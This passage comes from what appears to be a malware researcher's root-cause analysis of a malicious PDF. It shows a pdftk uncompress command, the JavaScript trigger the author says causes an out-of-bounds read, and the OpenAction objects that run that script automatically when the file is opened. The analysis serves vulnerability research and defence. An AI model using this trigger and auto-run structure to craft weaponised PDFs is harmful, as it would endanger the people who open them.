 ### Getting to the root of the vulnerability

<p class="cn" markdown="1">

The first thing I needed to do was uncompress the PDF as many objects are compressed, hiding the true functionaility such as JavaScript and images. I like to use [pdf toolkit](https://www.pdflabs.com/tools/pdftk-the-pdf-toolkit/) since it's command line driven.</p>

`c:\> pdftk 4b672deae5c1231ea20ea70b0bf091164ef0b939e2cf4d142d31916a169e8e01 output poc.pdf uncompress`

<p class="cn" markdown="1">
Since I don't have an original sample of the JPEG2000 image, I have no idea if this image was bitflipped or not, so I am only going to dive into the JavaScript.

After stripping away the rest of the JavaScript, we can see the following code will trigger the out of bounds read:</p>

```JavaScript
function trigger(){
    var f = this.getField("Button1");
    if(f){
        f.display = display.visible;
    }
}
trigger();
```
<p class="cn" markdown="1">


The JavaScript comes from an OpenAction triggered from the root node</p>

```
1 0 obj 
<<
/Length 130
>>
stream
function trigger(){
    var f = this.getField("Button1");
    if(f){
        f.display = display.visible;
    }
}
trigger();
endstream 
endobj

...

5 0 obj 
<<
/Outlines 2 0 R
/Pages 3 0 R
/OpenAction 6 0 R
/AcroForm 7 0 R
/Type /Catalog
>>
endobj 
6 0 obj 
<<
/JS 1 0 R
/Type /Action
/S /JavaScript
>>
endobj 

```